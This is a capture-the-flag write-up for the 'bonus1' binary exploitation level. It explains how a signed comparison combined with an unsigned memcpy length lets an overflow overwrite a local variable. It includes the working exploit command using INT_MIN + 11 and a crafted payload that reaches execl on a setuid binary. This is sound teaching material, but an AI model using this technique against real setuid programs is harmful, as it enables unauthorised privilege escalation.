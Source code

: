 # bonus1

## Solution
 * There is one file in our home, ```bonus1```, belonging to ```bonus2``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

## Explanation
Keeping only the parts which matters:
 * Our stack looks this way ```c
	 char		buf[40];
	 int32_t		val;
 ```

 * The program starts with `val = atoi(av[1])`
 * If `(val < 10)` the program continue his execution
 * It then does a read on it : `memcpy(buf, av[2], val * 4)`
 	* We would like to make a buffer overflow here, but we need `(val == 11)`
 * Finally if `(val == 0x574f4c46)` we get access to `execl`

## Execution
To have a long enough size for `memcpy` we can abuse the fact that the 1st comparison `(val < 10)` is signed while the `3rd argument of memcpy()` is unsigned:

We can launch the program this way:
```sh
./bonus1 -2147483637 `python -c "print('?' * 40 + '464c4f57'.decode('hex'))"`
```

We have chosen `-2147483637` as it is equal to `INT_MIN + 11`.
Allowing us to complete this bonus.
